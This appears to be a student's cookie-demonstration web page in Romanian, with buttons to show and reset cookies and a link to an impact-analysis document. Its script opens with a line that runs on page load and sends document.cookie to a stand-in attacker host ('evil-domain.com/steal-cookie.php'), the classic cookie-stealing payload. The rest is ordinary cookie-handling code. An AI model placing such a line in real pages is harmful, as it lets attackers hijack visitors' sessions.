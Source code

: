 <script> 
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
document.cookie = "name=henrietta"; 
document.cookie = "browser_version=navigator.appVersion";  

const cookieValue = document.cookie .split('; ') .find(row => row.startsWith('test2=')) .split('=')[1]; 

function doOnce() { if (!document.cookie.split('; ').find(row => row.startsWith('doSomethingOnlyOnce'))) { alert(document.cookie); 
document.cookie = "doSomethingOnlyOnce=true; expires=Fri, 31 Dec 9999 23:59:59 GMT"; } } 
function resetOnce() { document.cookie = "doSomethingOnlyOnce=; expires=Thu, 01 Jan 1970 00:00:00 GMT"; } //ES5 
if (document.cookie.split(';').some(function(item) { return item.indexOf('reader=1') >= 0 })) { console.log('The cookie "reader" has "1" for value') } //ES2016 
if (document.cookie.split(';').some((item) => item.includes('reader=1'))) { console.log('The cookie "reader" has "1" for value') } </script> 
<body>
  Bun venit pe pagina cu prajituri!<br>
  <button onclick="doOnce()">Vezi cookies</button><br>
  <button onclick="resetOnce()">Reseteaza buton cu cookie</button><br>
  <a href="https://didatec-my.sharepoint.com/:w:/r/personal/szilagyi_he_henri_utcluj_didatec_ro/_layouts/15/Doc.aspx?sourcedoc=%7B02175963-161C-4C61-9E55-04E30A59C7D6%7D&file=Analiza%20de%20impact.docx&action=edit&mobileredirect=true&wdNewAndOpenCt=1621792338112&ct=1621792338112&wdPreviousSession=0b3ed004-2258-4e6a-bb7d-185826811b79&wdOrigin=OFFICECOM-WEB.MAIN.UPLOAD">Acceseaza analiza de impact</a><br>
Szilagyi Henrietta-Andrea
</body>


